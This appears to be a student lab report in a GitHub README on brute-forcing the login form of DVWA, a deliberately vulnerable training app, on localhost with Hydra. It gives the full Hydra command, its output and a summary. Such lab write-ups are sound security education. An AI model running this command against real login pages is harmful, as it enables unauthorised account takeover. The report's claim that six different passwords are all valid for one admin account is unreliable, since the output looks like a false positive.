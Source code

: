 # 🔐 Brute Force Attack Report on DVWA using Hydra

---

## 🛠️ Tools & Environment

- **Tool:** Hydra v9.5  
- **Target URL:** `http://127.0.0.1/DVWA/vulnerabilities/brute/`  
- **Username:** `admin`  
- **Password List:** `quick.txt` (6 common passwords)  
- **Attack Type:** HTTP POST form brute force  

---

## ⚙️ Command Executed

```bash
hydra -l admin -P quick.txt 127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed"
```


## 📊 Attack Output & Results
Hydra started the attack and tried 6 passwords from the quick.txt file.

``` [80][http-post-form] host: 127.0.0.1   login: admin   password: 1234
 [80][http-post-form] host: 127.0.0.1   login: admin   password: admin123
 [80][http-post-form] host: 127.0.0.1   login: admin   password: letmein
 [80][http-post-form] host: 127.0.0.1   login: admin   password: 123456
 [80][http-post-form] host: 127.0.0.1   login: admin   password: admin
 [80][http-post-form] host: 127.0.0.1   login: admin   password: password
 1 of 1 target successfully completed, 6 valid passwords found
```
![Attack](file:///C:/Users/moham/OneDrive/Desktop/Attack.png)

## 📌 Summary
Hydra successfully identified 6 valid passwords for the user admin.

The tested passwords were simple and commonly used, demonstrating weak password security.

Using a small password list (quick.txt) made the testing process efficient and quick.

This confirms the vulnerability of DVWA to brute force attacks at this security level.

## ⚠️ Conclusion
The brute force attack on DVWA using Hydra demonstrates how weak or default passwords can be exploited. Always use strong, unique passwords and consider implementing protections like account lockouts or rate limiting.

Report generated by: M.M
Date: 2025-07-09